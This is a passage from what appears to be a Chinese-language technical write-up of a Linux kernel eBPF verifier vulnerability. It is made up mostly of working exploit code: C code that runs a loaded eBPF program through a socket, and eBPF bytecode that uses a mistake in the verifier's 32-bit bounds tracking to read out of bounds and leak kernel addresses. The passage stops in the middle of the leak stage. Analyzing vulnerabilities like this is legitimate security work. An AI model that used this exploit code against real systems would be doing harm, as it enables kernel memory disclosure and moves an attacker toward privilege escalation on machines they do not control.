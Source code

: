 创建的 ctrl_map 用于作为对程序的传参，exp_map 用于实际利用。在加载程序后，通过 socketpair 创建 socket，通过 setsockopt 将 eBPF 程序加载到 socket 上，这样后续就可以通过对 socket[0] 的 write 触发 eBPF 程序运行：

```c 
static void execute(void) {
    char buffer[64];
    ssize_t n = write(sockets[0], buffer, sizeof(buffer));
    ...
}
```

接下来我们分析 eBPF 程序：

```c
// Part 1 (trigger vulnerability)
BPF_LD_MAP_FD(BPF_REG_9,ctrl_mapfd),            // r9 = ctrl_mapfd
BPF_MAP_GET(0,BPF_REG_8),                       // r8 = ctrl_buf[0] (0x?000..00110)
BPF_MOV64_REG(BPF_REG_6, BPF_REG_0),            // r6 = r0             

BPF_LD_IMM64(BPF_REG_2,0x4000000000),           // r2 = 0x4000000000
BPF_LD_IMM64(BPF_REG_3,0x2000000000),           // r3 = 0x2000000000
BPF_LD_IMM64(BPF_REG_4,0xFFFFffff),             // r4 = 0xFFFFffff
BPF_LD_IMM64(BPF_REG_5,0x1),                    // r5 = 0x1

BPF_JMP_REG(BPF_JGT,BPF_REG_8,BPF_REG_2,5),     // if r8 > 0x4000000000 goto +5 (exit(0))
BPF_JMP_REG(BPF_JLT,BPF_REG_8,BPF_REG_3,4),     // if r8 < 0x2000000000 goto +4 (exit(0))
BPF_JMP32_REG(BPF_JGT,BPF_REG_8,BPF_REG_4,3),   // if w8 > 0xFFFFffff goto +3 (exit(0))
BPF_JMP32_REG(BPF_JLT,BPF_REG_8,BPF_REG_5,2),   // if w8 < 0x1 goto +2 (exit(0))

BPF_ALU64_REG(BPF_AND,BPF_REG_8,BPF_REG_4),     // r8 = r8 & 0xFFFFffff (0x110，但 verifier 已经认为其就是 0)
BPF_JMP_IMM(BPF_JA, 0, 0, 2),                   // goto +2 (Part 2)

BPF_MOV64_IMM(BPF_REG_0,0x0),                   // r0 = 0
BPF_EXIT_INSN(),                                // exit(0) (r8 不满足条件)
```

Part 1 用于处理输入参数并触发漏洞。首先读取 ctrl_map 的第一个 64 位值作为 r8，然后 r6 = r0 是参数地址，也就是 ctrl_buf 的实际存储空间，用来向攻击用户传回结果。接下来几个 JMP 设置了 r8 的 u{min,max}_value，并触发了漏洞，这样在和 0xffffffff 取或之后 r8 就变成了 verifier 完全确定的 0，但其值实际上是我们传入的 ctrl_buf 的首个 64 位值的低 32 位，我们设置其低 32 为 0x110，接下来就可以进入到 Part 2 中泄漏内核地址。

```c 
// Part 2 (leak info)
BPF_LD_MAP_FD(BPF_REG_9,exp_mapfd),             // r9 = exp_mapfd
BPF_MAP_GET_ADDR(0,BPF_REG_7),                  // r7 = &exp_buf[0]
BPF_ALU64_REG(BPF_SUB,BPF_REG_7,BPF_REG_8),     // r7 = r7 - r8 = &exp_buf[0] - 0x110

BPF_LDX_MEM(BPF_DW,BPF_REG_0,BPF_REG_7,0),      // r0 = *(u64 *)(r7)
BPF_STX_MEM(BPF_DW,BPF_REG_6,BPF_REG_0,0x10),   // *(u64 *)(r6 + 0x10) = r0

BPF_LDX_MEM(BPF_DW,BPF_REG_0,BPF_REG_7,0xc0),   // r0 = *(u64 *)(r7 + 0xc0)
BPF_ALU64_IMM(BPF_ADD,BPF_REG_0,0x50),          // r0 = r0 + 0x110 - 0xc0 = &exp_buf
```

Part 2 中首先取出 exp_map 的地址，然后减去 r8，这时 verifer 认为其减了 0 没有问题，但实际上已经减了 0x110 到了 bpf_map 的首地址，接下来取出首地址的值存回 ctrl_buf+0x10 即 `ctrl_buf[2]`，就可以在用户态读取，泄露出内核地址：
